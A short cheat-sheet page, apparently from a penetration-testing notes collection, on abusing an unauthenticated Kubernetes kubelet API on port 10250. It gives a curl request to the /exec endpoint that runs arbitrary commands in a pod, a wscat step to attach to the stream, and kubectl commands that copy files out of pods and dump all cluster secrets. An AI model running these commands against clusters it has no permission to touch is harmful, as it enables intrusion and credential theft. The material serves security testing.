 Kubernetes
==========

## API
The Kubernetes API exposes the port `10250`. This API can be used to interact with the Kubernetes engine which basically give us the right to do anything you desire unauthenticated.

To confirm that the host is running Docker you can make a GET requests to `/pods` :

```
https://<host>:<port>/pods

{"kind":"PodList","apiVersion":"v1","metadata":{},"items":[{"metadata":{"name":"dind-sgz8n","generateName":"dind-","namespace":"default","selfLink":"/api/v1/namespaces/default/pods/dind-sgz8n",`...}],"qosClass":"BestEffort"}}]}
```

With the above information it's possible to send requests to the API to execute commands:
```bash
$ curl --insecure -v -H "W-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -H "Connection: upgrade" -H "Upgrade: SPDY/3.1" -X POST "https://<host>:<port>/exec/<namespace>/<pod_name>/<container_name>?command=<cmd>&input=1&output=1&tty=1"
```

In the response, there is a `Location` header to create a WebSocket connection:
```bash
$ wscat -c "https://<host>:<port>/<location_header>" --no-check
```


## Useful commands

#### Start a pod

```bash
kubectl run k8s-2-test -ti --rm --image=debian --generator=run-pod/v1
```

#### Attach to an existing pod

```bash
kubectl exec -it k8s-2-test -- /bin/bash
```

#### Connect to an existing connection

```bash
kubectl attach k8s-1-test -c k8s-1-test -i -t
```

#### Copy a file from a pod to the local machine

```bash
kubectl cp default/k8s-1-test:{FILE} ./{FILE_DEST}
```

#### Print services

```bash
kubectl get services (-o wide)
```

#### Print pods
```bash
kubectl get pods -o json
kubectl get pods -o wide
kubectl get pods -o wide | sed -e 's/\s\+/ /g' | cut -f6 -d " "
```

#### Print secrets

```bash
kubectl get secrets -o yaml
```
